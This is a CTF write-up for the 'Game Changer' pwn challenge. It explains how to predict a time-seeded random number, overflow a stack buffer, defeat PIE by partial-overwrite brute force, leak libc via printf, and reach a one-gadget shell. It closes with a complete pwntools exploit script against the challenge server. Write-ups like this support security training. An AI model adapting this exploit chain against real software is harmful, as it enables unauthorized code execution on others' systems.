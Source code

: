 ## Game Changer 🩸

```
Author: rennfurukawa

Maybe it's your first time pwning? Can you overwrite the variable?

nc ctf.tcp1p.com 17027
```
**Attachment**: [gamechanger](release/gamechanger)

We were given a ELF binary called gamechanger. Here's some information about the binary.

![ELF Information](images/3fc4b0dd0ae7375abe4d3a6f3fc59db8633a83abfcaf8604a7f78222ef9a752b.png)  

<details close><summary>Decompiled Binary</summary>
    
```c
int init()
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  return setvbuf(stderr, 0LL, 2, 0LL);
}

__int64 randomize()
{
  unsigned int v0; // eax

  v0 = time(0LL);
  srand(v0);
  return (unsigned int)((rand() + 34) % 23);
}

__int64 game()
{
  char s[20]; // [rsp+0h] [rbp-20h] BYREF
  int v2; // [rsp+14h] [rbp-Ch]
  unsigned int v3; // [rsp+18h] [rbp-8h]
  unsigned int v4; // [rsp+1Ch] [rbp-4h]

  v4 = 0;
  v3 = randomize();
  puts("Let's play a game, try to guess a number between 1 and 100");
  fgets(s, 16, stdin);
  v2 = atoi(s);
  if ( !v2 )
  {
    puts("That's not a number");
    exit(0);
  }
  if ( v2 == v3 )
  {
    return 1;
  }
  else if ( v2 >= (int)v3 )
  {
    printf("Nope");
  }
  else
  {
    printf("Nope, the number i'm thinking is %d\n", v3);
  }
  return v4;
}

int ask()
{
  char buf[256]; // [rsp+0h] [rbp-100h] BYREF

  puts("Congrats, you guessed it correctly. What do you want to do this morning?");
  read(0, buf, 0x122uLL);
  if ( strlen(buf) <= 0x7F )
  {
    puts("Oh, are you an introverted person?");
    exit(0);
  }
  return printf("Oh, you want to %s...\nWow, you're a very active person!\n", buf);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+4h] [rbp-Ch] BYREF
  int v5; // [rsp+8h] [rbp-8h]
  unsigned int v6; // [rsp+Ch] [rbp-4h]

  init();
  printf("Do you want to play a game? (1: Yes, 0: No): ");
  while ( (unsigned int)__isoc99_scanf("%d", &v4) != 1 || v4 && v4 != 1 )
  {
    while ( getchar() != 10 )
      ;
    printf("Invalid choice. Please enter 1 or 0: ");
  }
  while ( getchar() != 10 )
    ;
  if ( v4 )
  {
    if ( v4 == 1 )
    {
      v6 = 1;
      v5 = 0;
      while ( (int)v6 <= 5 && !v5 )
      {
        printf("Attempt %d:\n", v6);
        v5 = game();
        ++v6;
      }
      if ( v5 )
        ask();
      else
        puts("You couldn't guess the number. Better luck next time!");
    }
  }
  else
  {
    puts("Okay, maybe another time!");
  }
  return 0;
}
```
    
</details>

When the program is running, it will loop and call the `game()` function when the user enters the number 1. In the `game()` function, the user will be prompted to enter a number. If the number entered by the user is the same as the result of calling the `randomize()` function, the program will return to the `main()` function with a value of 1 (True).

In the `randomize()` function, the program will call `srand()` to set the randomization seed for the `rand()` function using the current time as an integer seed. This can be exploited to obtain the same random number as the result of calling the `randomize()` function.

Now let's take a look at the `ask()` function which will be called if the `game()` function return 1.  

```c
int ask()
{
  char buf[256]; // [rsp+0h] [rbp-100h] BYREF

  puts("Congrats, you guessed it correctly. What do you want to do this morning?");
  read(0, buf, 290uLL);
  if ( strlen(buf) <= 0x7F )
  {
    puts("Oh, are you an introverted person?");
    exit(0);
  }
  return printf("Oh, you want to %s...\nWow, you're a very active person!\n", buf);
}
```

The program will ask the user to input data with a maximum of 296 bytes, which will be stored in the variable `buf`. This creates a Buffer Overflow vulnerability because the `buf` variable can only hold up to 256 bytes of data. This can be leveraged to perform a Return-Oriented Programming (ROP) attack. However, due to the presence of Position-Independent Executable (PIE) mitigation in the provided binary, we cannot directly jump to the desired function. In this case, I decided to perform a brute force with a probability of 1/16 by overwriting the last 2 bytes (3 known nibbles and 1 unknown nibble) of the SAVED RIP on the stack with the address of the `main()` function. This is done with the aim of determining a valid address by observing if the program displays the output from the "main()" function.

Additionally, there is a vulnerability in the "ask()" function that can be exploited to leak an address.
```c
  return printf("Oh, you want to %s...\nWow, you're a very active person!\n", buf);
```
This vulnerability arises because the user's input received using the read() function is not terminating the user input using null byte. Therefore, if a user enters specific data, it possible the program to potentially display addresses and values stored in the stack. To clarify further, please refer to the image below.

![Leaking Stack Value](images/7be64d87cb5c679b21c43e4ae60b7167a5dee39c8d21cb57c0f2c7cf085f4623.png)  
![Leaked Value](images/6b3424c5c964e0c49beccecd485fed0955150f396effb9c636c8dc3f8d450d5c.png)  

When I tried to debug, I noticed that at the end of the `ask()` function the $RDI register was pointing to the stack address that contained the libc address of the `funlockfile()` function. 
![RDI Containing a LIBC Address](images/8ed3287d2b5190753e0fc66809c24efff11ab85a0c5757f1cf3a2f04c322aecf.png)  
Then, I had the idea to perform a libc address leak by calling the `printf()` function and testing it on the REMOTE server, which turned out to be successful. From there, I assumed that the server was running on Ubuntu 22.04 (GLIBC version 2.35). Honestly, I felt lucky because I was using Ubuntu 22.04, which has GLIBC version 2.35 xD.

After performing the leak, the payload I used is to return to the `ask()` function to perform ROP. Here, I decided to use a one-gadget because there is a suitable constraint to use after calling the `ask()` function:
```
0xefcf5 execve("/bin/sh", r10, rdx)
constraints:
address rbp-0x78 is writable
[r10] == NULL || r10 == NULL
[rdx] == NULL || rdx == NULL
```

Here's my exploit to solve this challenge:
    
<details open> <summary>exploit.py</summary>

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from os import path
import sys
import time
from ctypes import CDLL

# ==========================[ Information
DIR = path.dirname(path.abspath(__file__))
EXECUTABLE = "/gamechanger" # patched the libc with libc6_2.35-0ubuntu1_amd64.so
TARGET = DIR + EXECUTABLE 
HOST, PORT = "ctf.tcp1p.com", 9254
REMOTE, LOCAL = False, False

# ==========================[ Tools
elf = ELF(TARGET)
elfROP = ROP(elf)

# ==========================[ Configuration
context.update(
	arch=["i386", "amd64", "aarch64"][1],
	endian="little",
	os="linux",
	log_level = ['debug', 'info', 'warn'][2],
	terminal = ['tmux', 'split-window', '-h'],
)

# ==========================[ Exploit

def win_game():
	cdll.srand(int(time.time()))
	correct_answer = (cdll.rand() + 34) % 23
	io.sendlineafter(b"100\n", str(correct_answer).encode())
	sleep(0.01)

def exploit(io, libc=null, cdll=null):
	if LOCAL==True:
		#raw_input("Fire GDB!")
		if len(sys.argv) > 1 and sys.argv[1] == "d":
			choosen_gdb = [
				"source /home/mydata/tools/gdb/gdb-pwndbg/gdbinit.py",     # 0 - pwndbg
				"source /home/mydata/tools/gdb/gdb-peda/peda.py",          # 1 - peda
				"source /home/mydata/tools/gdb/gdb-gef/.gdbinit-gef.py"    # 2 - gef
				][0]
			cmd = choosen_gdb + """
			b *ask+0x66
			c
			"""
			gdb.attach(io, gdbscript=cmd)
	io.sendlineafter(b" game? (1: Yes, 0: No):", b"1", timeout=2)
	win_game()

	# === Overflow jump to main+1
	p = b""
	p = b"A"*(0x108-1)+b"|"
	p += p16(0xe3e2+1) # ?3e2+1 == ? unknown 
	io.sendafter(b"What do you want to do this morning?\n", p, timeout=2)
	sleep(0.01)
	io.recvuntil(b"|")
	LEAKED_ELF = u64(io.recv(6, timeout=2).ljust(8, b"\x00"))
	elf.address = LEAKED_ELF - elf.symbols["main"] - 1
	print("LEAKED_ELF               :", hex(LEAKED_ELF))
	print("elf.address              :", hex(elf.address))

	io.recvuntil(b"game? ", timeout=2)
	io.sendlineafter(b"(1: Yes, 0: No):", b"1")
	sleep(0.01)
	win_game()

    # === Leak LIBC Address using printf($RDI)
    # === and jump back to the ask() function
	p = b""
	p = b"A"*(0x108-1)+b"|"
	p += p64(elf.search(asm('ret')).__next__())
	p += p64(elf.symbols["printf"])
	p += p64(elf.symbols["ask"]+1)
	io.sendafter(b"What do you want to do this morning?\n", p)
	sleep(0.01)
	io.recvuntil(b"|")
	io.recvuntil(b"person!\n", timeout=2)
	

	LEAKED_LIBC = u64(io.recv(6).ljust(8, b"\x00"))
	libc.address = LEAKED_LIBC - libc.symbols["funlockfile"]
	print("LEAKED_LIBC              :", hex(LEAKED_LIBC))
	print("libc.address             :", hex(libc.address))

	"""
	0xefcf5 execve("/bin/sh", r10, rdx)
	constraints:
	address rbp-0x78 is writable
	[r10] == NULL || r10 == NULL
	[rdx] == NULL || rdx == NULL
	"""

	p = b""
	p = p.ljust(0x108-8, b"A")
	p += p64(elf.bss(0x200)) # writeable memory area
	p += p64(libc.address+0xefcf5) # jump to One gadget
	io.sendafter(b"What do you want to do this morning?\n", p)
	sleep(0.01)

	io.interactive()

if __name__ == "__main__":
	io, libc = null, null
	if args.REMOTE:
		REMOTE = True
	else:
		LOCAL = True
	libc = ELF("libc6_2.35-0ubuntu1_amd64.so")
	cdll = CDLL("/lib/x86_64-linux-gnu/libc.so.6")

	while True:
		try:
			if REMOTE == True:
				io = remote(HOST, PORT)
				
			else:
				io = process(
					[TARGET, ],
					env={
					#     "LD_PRELOAD":DIR+"/___",
					#     "LD_LIBRARY_PATH":DIR+"/___",
					},
				)
			elf.address = 0
			exploit(io, libc, cdll)
		except Exception as e:
			print(e)
			pass
``` 
</details>

![PWN3D](images/f7300ac9b074a7d805dfd9e419b1482001a9ea319f6845ab37a0b46c46fdecb6.png)  

    
**Flag:** TCP1P{w0w_1ve_n3v3r_533n_5uch_4_900d_g4m3_ch4n93r_29c19ff69c5760fee1db8cac282a7b073bec936f}
